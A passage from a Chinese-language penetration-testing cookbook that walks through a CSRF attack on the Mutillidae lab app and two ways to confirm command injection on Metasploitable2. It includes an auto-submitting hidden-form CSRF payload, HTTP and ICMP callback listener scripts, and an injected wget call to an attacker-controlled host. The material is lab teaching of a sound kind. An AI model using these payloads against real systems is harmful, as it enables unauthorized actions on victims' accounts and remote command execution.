User-Agent: Mozilla/5.0 (X11; Linux i686; rv:18.0) Gecko/20100101 Firefox/18.0 Iceweasel/18.0.1 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Referer: http://172.16.36.135/mutillidae/index.php?page=add-to-your-blog. php 
Cookie: username=Victim; uid=17; PHPSESSID=8aa4a24cd6087911eca39c1cb95a7 b0c 
Connection: keep-alive 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 98

csrf-token=SecurityIsDisabled&blog_entry=This+is+my+blog+entry&add-toyour-blog-php-submit-button=Save+Blog+Entry
```

上面的例子中，我们可以看到，验证用户所提交的`blog`入口通过`blog_entry`POST 方法参数传递。为了利用这个 CSRF 控制的缺失，攻击者需要构造恶意页面，它能导致受害者提交所需的参数。下面是个 POST 方法 CSRF 攻击的例子：

```html
<html> 
<head>        
    <title></title> 
</head> 
<body>        
    <form name="csrf" method="post" action="http://172.16.36.135/ mutillidae/index.php?page=add-t$                
        <input type="hidden" name="csrf-token" value="SecurityIsDisabled" />                
        <input type="hidden" name="blog_entry" value="HACKED" />                
        <input type="hidden" name="add-to-your-blog-phpsubmit-button" value="Save+Blog+Entr$        
    </form>        
    <script type="text/javascript">                
        document.csrf.submit();        
    </script> </body> </html> 
```

这个恶意 Web 页面使用了 HTML 表单，它将多个隐藏的输入字段返回给服务器，这些字段对应 Mutillidae 应用的`blog`入口提交请求所需的相同输入。此外，JS 用于提交表单。所有这些事情在受害者不执行任何操作的情况下就会发生。考虑下面的例子：

```
root@KaliLinux:~# mv CSRF.html /var/www/ 
root@KaliLinux:~# /etc/init.d/apache2 start 
[....] Starting web server: apache2apache2: Could not reliably determine the server's fully qualified domain name, using 127.0.1.1 for ServerName 
. ok
```

为了部署这个恶意 Web 内容，应该将其移动到 Web 根目录下。在 Kali 中，默认的 Apache Web 根目录是`/var/www/`。同样，确保 Apache2 服务已打开。像这样：



当验证后的受害者浏览器恶意页面时，受害者会自动重定向到 Mutillidae  博客应用，并提交博客入口`HACKED `。

### 工作原理

CSRF 的成因是请求最终由用户的会话生成。这个攻击利用受害者浏览器已经和远程 Web 服务器建立连接的信任。在 GET 方法 CSRF 的例子中，受害者被诱导访问某个 URL，其中的参数为恶意事务而定义。在 POST 方法 CSRF 的例子中，受害者被诱导浏览定义了参数的页面，这些参数随后会由受害者的浏览器转发给漏洞服务器，来指定恶意事务。在每个例子中，事务由于请求来自受害者的浏览器而被执行，受害者已经和漏洞服务器建立了可信的会话。

## 7.18 使用 HTTP 流量验证命令注入漏洞

命令注入可能是移植 Web 应用攻击向量中最危险的漏洞了。多数攻击者尝试利用该漏洞，以期望它们最后能够在底层 OS 上执行任意的代码。命令执行漏洞提供了无需额外步骤的可能。这个秘籍中，我们会讨论如何使用 Web 服务器日志或自定义 Web 服务脚本来确认命令执行漏洞。

### 准备

为了对目标执行命令注入漏洞测试，你需要拥有运行一个或多个含有命令执行漏洞的 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

此外，这个秘籍也需要使用例如 VIM 或者 Nano 的文本编辑器，将脚本写到文件系统。更多编写脚本的信息请参考第一章的“使用文本编辑器（VIM 或 Nano）”秘籍。

### 操作步骤

通过执行命令，强迫后端系统和 Web 服务器交互，我们就能够验证 Web 应用中的命令注入漏洞。日志可以作为漏洞服务器和它交互的证据。作为替代，可以编写一个自定义脚本来生成一个临时的 Web 服务，它可以监听外部连接，并打印接收到的请求。下面的 Python 代码完成了这件事情：

```py
#!/usr/bin/python
import socket
httprecv = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
httprecv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1) 
httprecv.bind(("0.0.0.0",8000)) 
httprecv.listen(2)

(client, ( ip,sock)) = httprecv.accept()
print "Received connection from : ", ip 
data = client.recv(4096) 
print str(data)

client.close() 
httprecv.close() 
```

一旦执行脚本，我们需要强迫目标服务器和监听服务交互，来确认命令注入漏洞。DWVA 应用拥有`ping`功能，可以用于 ping 一个指定 IP 地址。用户输入直接传递给系统调用，可以修改来执行底层 OS 的任意命令、我们可以通过使用分号来添加多个命令，每个命令依次排列，像这样：



在上面的例子中，输入用于 ping `127.0.0.1`，并且对`http://172.16.36.224:8000`执行`wget`。`wget`请求对应临时的 Python 监听服务。在提交输入后，我们可以通过参考脚本的输入来验证命令执行：

```py
root@KaliLinux:~# ./httprecv.py 
Received connection from :  172.16.36.135 
GET / HTTP/1.0 
User-Agent: Wget/1.10.2 
Accept: */* Host: 172.16.36.224:8000 
Connection: Keep-Alive 
```

### 工作原理

Python 脚本用于确认命令执行漏洞，因为它证明了命令可以通过来自不同系统的注入载荷在目标服务器上执行。载荷输入到服务器的时候，不可能同时执行相似的请求。但是，即使载荷并不是被检测到的流量的真正来源，我们也可以轻易尝试多次来排除错误情况。

## 7.19 使用 ICMP 流量 来验证命令注入

命令注入可能是移植 Web 应用攻击向量中最危险的漏洞了。多数攻击者尝试利用该漏洞，以期望它们最后能够在底层 OS 上执行任意的代码。命令执行漏洞提供了无需额外步骤的可能。这个秘籍中，我们会讨论如何使用 ICMP 流量来编写用于确认命令执行漏洞的自定义脚本。

### 准备

为了对目标执行命令注入漏洞测试，你需要拥有运行一个或多个含有命令执行漏洞的 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

此外，这个秘籍也需要使用例如 VIM 或者 Nano 的文本编辑器，将脚本写到文件系统。更多编写脚本的信息请参考第一章的“使用文本编辑器（VIM 或 Nano）”秘籍。

### 操作步骤

通过执行命令，强迫后端系统发送 ICMP 流量给监听服务，我们可以验证 Web 应用中的命令注入漏洞。接收到的 ICMP 回响请求可以用于识别漏洞系统。下面是一段 Python 代码，使用 Scapy 库来实现：

```py
#!/usr/bin/python

import logging 
logging.getLogger("scapy.runtime").setLevel(logging.ERROR) 
from scapy.all import *

def rules(pkt):   
    try:      
        if (pkt[IP].dst=="172.16.36.224") and (pkt[ICMP]):         
            print str(pkt[IP].src) + " is exploitable"   
    except:      
        pass

print "Listening for Incoming ICMP Traffic.  Use Ctrl+C to stop listening"

sniff(lfilter=rules,store=0)
```

在 ICMP 监听器执行之后，我们需要尝试从漏洞服务器向监听服务发送 ICMP 回响请求。这可以通过将`ping`命令注入到存在命令注入漏洞的用户输入来完成。在 Mutillidae 中，执行 DNS 枚举的功能存在漏洞，它直接将用户输入传递给系统调用。通过使用分号，单独的`ping`请求可以追加到用户输入后面。



假设服务器存在命令注入漏洞，Python 监听器会提示收到了 ICMP 回响请求，而且目标服务器可能存在漏洞。

```
root@KaliLinux:~# ./listener.py 
Listening for Incoming ICMP Traffic.  Use Ctrl+C to stop listening 
172.16.36.135 is exploitable
```

### 工作原理

Python 脚本用于确认命令执行漏洞，因为它证明了命令可以通过来自不同系统的注入载荷在目标服务器上执行。载荷输入到服务器的时候，不可能同时执行相似的请求。但是，即使载荷并不是被检测到的流量的真正来源，我们也可以轻易尝试多次来排除错误情况。
